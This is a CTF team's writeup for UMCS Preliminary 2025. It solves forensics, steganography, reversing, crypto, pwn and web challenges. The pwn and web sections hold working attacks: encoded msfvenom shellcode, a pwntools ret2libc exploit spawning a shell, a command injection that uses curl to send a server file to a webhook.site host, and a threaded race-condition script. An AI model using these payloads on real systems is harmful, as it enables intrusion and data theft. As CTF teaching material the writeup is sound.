# UMCS CTF Preliminary 2025 Writeup - SpamBytes

Welcome to our writeup for the UMCS CTF Preliminary 2025!

## Table of Contents

### Forensic
1. [Hidden in Plain Graphic (Nyamuk)](#hidden-in-plain-graphic-nyamuk)

### Steganography
1. [Broken (Akmlaff)](#broken-akmlaff)
2. [Hotline Miami (Akmlaff)](#hotline-miami-akmlaff)

### Reverse Engineering
1. [Http-Server (Akmlaff)](#http-server-akmlaff)

### Cryptography
1. [Gist of Samuel (lkhwn.nzm & Akmlaff)](#gist-of-samuel-lkhwnnzm--akmlaff)

### Pwn
1. [babysc (lkhwn.nzm)](#babysc-lkhwnnzm)
2. [Liveleak (lkhwn.nzm)](#liveleak-lkhwnnzm)

### Web
1. [Healthcheck (lkhwn.nzm)](#healthcheck-lkhwnnzm)
2. [Straightforward (Nyamuk)](#straightforward-nyamuk)

## Forensic
### Hidden in Plain Graphic (Nyamuk)

### Description
> Agent Ali, who are secretly a spy from Malaysia has been communicate with others spy from all around the world using secret technique. Intelligence agencies have been monitoring his activities, but so far, no clear evidence of his communications has surfaced. Can you find any suspicious traffic in this file?

`plain_zight.pcap`

---

### Solution

First, I opened the packet capture to see what protocols were inside.  
Next, I filtered `http` protocol — maybe there were some files I could export.


Unfortunately, no downloadable files were available via `http`.


I found nothing.

Then, I tried looking for any hidden content inside the `.pcap` using `binwalk`:

```bash
binwalk -e plain_zight.pcap
```


From the scan, I saw that there was a PNG file detected at offset `0x10DF1` (in decimal is `69105`).

Then, I decided to manually extract it using `dd`:

```bash
dd if=plain_zight.pcap of=manual_extracted.png bs=1 skip=69105
```


The image was successfully extracted:


After extracting, I checked the file type using:

```bash
file manual_extracted.png
```


It confirmed that the image is a valid `PNG`, `512x512 RGBA` — likely suitable for steganalysis.

So, my assumption for png file, I can use `zsteg` or [aperisolve](https://www.aperisolve.com/).
Lastly, I ran `zsteg` to analyze the LSB (Least Significant Bit) layers:

```bash
zsteg manual_extracted.png
```


Flag: **umcs{h1dd3n_1n_png_st3g}**

## Steganography
### Broken (Akmlaff)

### Description
> Can you fix what’s broken ?

`Broken.mp4`

---

### Solution


We cant see the video because it is broken and after using `exiftool`, checked for its `hex` and everything was okay so I just thought that the `mp4` was really broken so.


I searched for an online `mp4` repair tool [EaseUS](https://repair.easeus.com/#upload) put the bad boy in to repair the broken file and boom ! we got the flag.

Flag: **umcs{h1dd3n_1n_fr4me}**

### Hotline Miami (Akmlaff)
### Description
**Challenge URL:** [Github - Hotline_Miami](https://github.com/umcybersec/umcs_preliminary/tree/main/stego-Hotline_Miami)

> You’ve intercepted a mysterious floppy disk labeled 50 BLESSINGS, left behind by a shadowy figure in a rooster mask. The disk contains a cryptic image and a garbled audio file. Rumor has it the message reveals the location of a hidden safehouse tied to the 1989 Miami incident. Decrypt the clues before the Russians trace your signal.

`iamthekidyouknowwhatimean.wav`,`requirement.txt`,`rooster.jpg`

---

### Solution

`requirement.txt`:



Saw this in the readme.txt and I was like this might be the format.

Flag format would be: **Subject_Be_Verb_Year**

`iamthekidyouknowwhatimean.wav`



The `.wav` file played a consistent beat. I loaded the audio into [Sonic Visualiser](https://www.audacityteam.org/), added a spectrogram layer and this appeared:



So, we got the last 2 parts of the flag which are **WATCHING** (verb) and **1989** (year).

Next, I used [aperisolve](https://www.aperisolve.com/) on `rooster.jpg`.




It’s a hot nugget and when I scrolled down until the end of the string I saw **Richard** and it was actually a character in hotline miami game. So, I think that’s the subject?





Then I was googling I saw this reddit post that says the game was just Richard watching a film and I also that he is connected to the 1989 killing on fandom so I think its making sense?

So, I put **the Subject_Be_Verb_Year** from the `requiement.txt` and all the hints I got **Watching** ,**1989** and **Richard**. Then... voila!!



Flag: **umcs{Richard_Is_Watching_1989}**

## Reverse Engineering

### Http-Server (Akmlaff)
### Description
> I created a http server during my free time
> 
> 34.133.69.112 port 8080

`server.unknown`

---

### Solution

We got a file named `server.unknown`.



Downloaded the file and checked for the file type and it was an `ELF` file so I put it into my bestfriend chatgpt instead of trying the **nc 34.133.69.112 8080**.

Then I decompiled it using ghidra and I saw this lines:
```bash
pcVar2 = strstr(pcVar2,"GET /goodshit/umcs_server HTTP/13.37");
 if (pcVar2 == (char *)0x0) {
 sVar4 = strlen("HTTP/1.1 404 Not Found\r\nContent-Type: text/plain\r\n\r\nNot here
buddy\n");
 send(param_1,"HTTP/1.1 404 Not Found\r\nContent-Type: text/plain\r\n\r\nNot here
buddy\n",sVar4,
 0);
 }
```

The server code checks if the request matches the string and this check is done using the
`strstr` function



So uh… this wasn’t any interesting but after I having a very very deeptalk with my brother **chatpgt** and I used the
```bash
printf "GET /goodshit/umcs_server HTTP/13.37\r\n\r\n" | nc 34.133.69.112 8080
```
and… I don’t know if this was intended or not but… chatgpt was explaining the 500 error and it asked me to test forging the raw `HTTP` request and… I guess…



I got the flag...!! yay.

Flag: **umcs{http_server_a058712ff1da79c9c9bbf211907c65a5cd}**

## Cryptography

### Gist of Samuel (lkhwn.nzm & Akmlaff)
### Description
> Samuel is gatekeeping his favourite campsite. We found his note.
> 
> flag: umcs{the_name_of_the_campsite}
> 
> The flag is case insensitive

<details>
  <summary>Hint for 0 points</summary>
! This is not a real hint. ! I dont remember but, its a another gist hash of umcs
</details>

`gist_of_samuel.txt`

---

### Solution



We were given a file full of train emojis.

From the pattern, the blue train is always singular, so we instantly assume it was morse code since the spaces are required to separate the characters.



We used gpt to generate a script to convert it into dots and dash.



Then we used multiple morse code decoders online to decrypt it. But not of all it works as not all morse code decoders has `#`. 
We initially thought `E012D0A1FFFAC42D6AAE00C54078AD3E` is a md5 hash and it needs to be decrypted. But no encryption we tried worked. So I was stucked here for a while.



Then, the admin released a hint here and instantly we knew the string earlier wasn’t an encrypted value but an address of another github page. So we pasted the hash on the url.

```bash
https://gist.github.com/umcybersec/e012d0a1fffac42d6aae00c54078ad3e
```



And we got the **veryveryveryverysecret**.



Then we tried the only thing left that relates to trains because Samuel is obsessed with trains. **Rail fence**, because it rhymes
With railway. We also use number **8** as the key because the morse code also translates to Samuel favourite number is 8.

Then, seeing this is usually used as ascii art, we thought that maybe the text needs to be within a specific width to be something readable.







After making it wider we got the flag!!

Flag: **umsc{WILLOW_TREE_CAMPSITE}**

## PWN

### babysc (lkhwn.nzm)
### Description
> shellcode
> 
> 34.133.69.112 port 10001

`Dockerfile`, `babysc.c`, `babysc`

---

### Solution

First, we analyze using `checksec` to see possible attacks.

```bash
$ checksec babysc
[*] '/home/kali/Downloads/pwn/babysc'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      PIE enabled
    RWX:      Has RWX segments
    SHSTK:    Enabled
    IBT:      Enabled
    Stripped: No
```

We see that `RWX` has segments, that means that I can inject and run shellcode directly.

```bash
$ msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -o payload.bin

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 46 bytes
Saved as: payload.bin

$ cat payload.bin | nc 34.133.69.112 10001

```

However, there was no response.



Then I use a simple xor encoding to bypass the blacklist and get the flag.

```bash
$ msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -b '\x0f\x05\xcd\x80' \
-e x86/call4_dword_xor -o payload_xor.bin

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 72 (iteration=0)
x86/call4_dword_xor chosen with final size 72
Payload size: 72 bytes
Saved as: payload_xor.bin

$ cat payload_xor.bin | nc 34.133.69.112 10001
Enter 0x1000
Executing shellcode!
umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}

```

This is the exploit command:

```bash
msfvenom -p linux/x64/exec CMD="cat /flag" -f raw -b '\x0f\x05\xcd\x80' -e x86/call4_dword_xor -o payload_xor.bin
```

Flag: **umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a}**

## Liveleak (lkhwn.nzm)
## Description
> No desc
> 
> 34.133.69.112 port 10007

`chall`, `Dockerfile`, `ld-2.35.so `, `libc.so.6`

---

## Solution

First we analyze using `checksec` to see possible attacks.

```bash
$ checksec chall
[*] '/home/kali/Downloads/pwn/chall'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    No canary found
     NX:       NX enabled
     PIE:      No PIE (0x3ff000)
     RUNPATH:  b'.'
     SHSTK:    Enabled
     IBT:      Enabled
     Stripped: No
```

Then I got this output which means:

No canary ➔ Stack buffer overflow possible.

`NX` enabled ➔ Stack is non-executable (need `ROP`). 

No `PIE` ➔ Static addresses (`ROP` is easier).

```bash
$ gdb ./chall
```

Then, we need to find the buffer offset, using `gdb`.

```bash
(gdb) run <<< $(cyclic 500)
Starting program: /home/kali/Downloads/pwn/chall <<< $(cyclic 500)
warning: Expected absolute pathname for libpthread in the inferior, but got: ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
Enter your input:
```

Then we do this to identify how many bytes are needed to overwrite important registers.

The program crashed with a segmentation fault at:

```bash
Program received signal SIGSEGV, Segmentation fault.
0x0000000000401291 in vuln ()
```

Then we inspect the using `info registers`.

```bash
(gdb) info registers
rax            0x7ffffffdbd00    140737488346064
rbx            0x0               0
```

```bash
rbp            0x6161617261616171   0x6161617261616171
rsp            0x7fffffffdc18    0x7fffffffdc18
r8             0x0               0
r9             0x0               0
r10            0x7ffff7c06270    140737349968496
r11            0x246             582
r12            0x7fffffffdc38    140737488346424
r13            0x401292          4199058
r14            0x403e18          4210200
r15            0x7ffff7fdd040    140737354125376
rip            0x401291          0x401291 <vuln+53>
```

From this we know that rbp was overwritten, and `RIP` is located 8 bytes above `RBP` on the stack, we use the cyclic pattern to find the offset.

```bash
$ cyclic -l 0x6161617261616171

64
```

`OFFSET = 64 + 8 = 72 bytes`

Then, I gave all the collected information I have to **chatgpt** to create an exploit script.

```bash
from pwn import *

# Setup
context.binary = elf = ELF('./chall')
libc = ELF('./libc.so.6')
p = remote('34.133.69.112', 10007)

rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]

# Stage 1: Leak puts
payload = flat(
    b'A' * 72,
    pop_rdi,
    elf.got['puts'],
    elf.plt['puts'],
    elf.symbols['main']
)
p.sendlineafter("Enter your input:", payload)

p.recvline()
leaked_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.symbols['puts']

# Stage 2: system("/bin/sh")
payload2 = flat(
    b'A' * 72,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    ret,
    libc.symbols['system']
)
p.sendlineafter("Enter your input:", payload2)
p.sendline(b'cat flag_copy')

try:
    print(p.recvuntil(b"}", timeout=3).decode())
except EOFError:
    print("❌ Early EOF")

p.close()
```

run the exploit script. Then, got the flag!

Flag: **umcs{GOT_PLT_8f925fb19309045dac4db4572435441d}**

## Web

### Healthcheck (lkhwn.nzm)
### Description
> I left my hopes_and_dreams on the server. can you help fetch it for me?
> 
> http://104.214.185.119/index.php

UMCS provide us `index.php` on their github

---

### Solution

I was given this web page.



When viewing the page source from the given github, the `index.php` script was given.

```bash
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

    $sanitized_url = str_replace($blacklist, '', $url);

    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>
```

The php command basically means that it accepts a url, then sanitizes it by removing the contents that is identified as a blacklisted element. Then it executes it as a “curl” shell command to check the http response.

It blocks important characters like `$` and `;` which could create a new shell, or separate it to run a different command. So that means I am stuck with using  `Curl` command only.

```bash
curl -s -D - -o /dev/null “[sanitised url]" | grep -oP '^HTTP.+[0-9]{3}'
```

The `curl` command collects the `http` response, and discards all the remaining content. That means I can’t see the remaining web request content no matter what.

After testing it, I can confirm the only information I can get directly from the website is the `http` request which is displayed like this.



For me to exfiltrate any data from a web like this I need to use a [webhook](https://webhook.site/). So, after hours of trying I finally got a working webhook payload to send data and see if it could work.

The command:

```bash
http://127.0.0.1/x$(curl --data "testtesttesttest" https://webhook.site/5af80e59-cbce-4dca-bca4-747e8397f71b)
```



Fortunately, it works. 

Since we can’t spawn a web shell here because `$` and `;` is blocked, only `curl` commands are available to me.



I can’t directly `cat` the flag, so the only option I have is to download the file and see it locally.

I tested with using `-O` to try download the file but I doesn’t work.

The only command usable command to download the flag is `-F`

So, this is the final payload:

```bash
http://127.0.0.1/x$(curl -F file=@hopes_and_dreams https://webhook.site/5af80e59-cbce-4dca-bca4-747e8397f71b)
```



Yahooo! got the flag!

Flag: **umcs{n1c3_j0b_ste4l1ng_myh0p3_4nd_dr3ams}**

### Straightforward (Nyamuk)
### Description
> Test out our game center. You'll have free claiming bonus for first timers!
> 
> **Author: vicevirus** Flag format: UMCS{...}
> 
> http://159.69.219.192:7859/

`straightforward.zip`

---

### Solution






I Accessed the web portal at http://159.69.219.192:7859/:

The landing page displayed a simple Game Portal with a button to Create Account.

After exploring the portal, I figured out the basic workflow:

  •	Create an account via `/register`.
  
  •	Login and view dashboard `/dashboard`.
  
  •	Collect daily bonus `/claim`.
  
  •	Redeem secret reward `/buy_flag` (needs **$3000** balance).



The challenge provided the source code > unzip straightforward.zip > app.py.

When I reviewed the `/claim` route, I found something interesting:

```bash
@app.route('/claim', methods=['POST'])
def claim():
    if 'username' not in session:
        return redirect(url_for('register'))
    username = session['username']
    db = get_db()
    cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
    row = cur.fetchone()
    if row and row['claimed']:
        flash("You have already claimed your daily bonus!", "danger")
        return redirect(url_for('dashboard'))
    db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
    db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
    db.commit()
    flash("Daily bonus collected!", "success")
    return redirect(url_for('dashboard'))
```

What I noticed is:

  1.	The database first checks if claimed, and only after that, it updates.
     
  2.	No database locking or atomicity between checking and updating.
     
  3.	Race Condition is possible.

I knew about Race Condition from general web CTF knowledge and from [PortSwigger Race Conditions](https://portswigger.net/web-security/race-conditions). When updates are not atomic, and multiple requests are fired fast enough, the database might allow duplicate operations.

If multiple requests are sent simultaneously, database race may allow multiple bonuses before `claimed` is fully set. 

So, we need to make a script for this challenge! But first, we need to gain the session cookies because the server uses Flask sessions to track who the current logged-in user is.



If there is no valid session, the server rejects access to protected pages.

**Info!**
I collected my session cookie before clicking `Collect Daily Bonus` because if I clicked it first, the server would mark my account as already claimed. By grabbing the cookie early, I could send many bonus requests manually and abuse the race condition before the claim was locked.



Session Cookie:

`.eJyrViotTi3KS8xNVbJSyqtMzC3NRgFKtQDiHw0f.Z_n4vw.wyp2BKfyvhs03ntNPfjjMQLohWk`

Next, I asked my best duo gpt to create me a Python script to send 20+ parallel `POST` requests to `/claim`.

Exploit.py:

```bash
import threading
import requests

# Settings
url = "http://159.69.219.192:7859/claim"
session_cookie = ".eJyrViotTi3KS8xNVbJSyqtMzC3NRgFKtQDiHw0f.Z_n4vw.wyp2BKfyvhs03ntNPfjjMQLohWk"
threads_count = 20  # You can increase this for heavier attack

# Function to send POST request
def claim_bonus():
    cookies = {'session': session_cookie}
    try:
        response = requests.post(url, cookies=cookies, timeout=3)
        print(f"[+] Status: {response.status_code} | Length: {len(response.text)}")
    except Exception as e:
        print(f"[!] Error: {e}")

# Create threads
threads = []
for i in range(threads_count):
    t = threading.Thread(target=claim_bonus)
    t.start()
    threads.append(t)

# Wait for all threads to complete
for t in threads:
    t.join()

print("[*] Finished sending all claim requests.")
```



Then I click refresh on the browser, BOOM! the current balance increase.

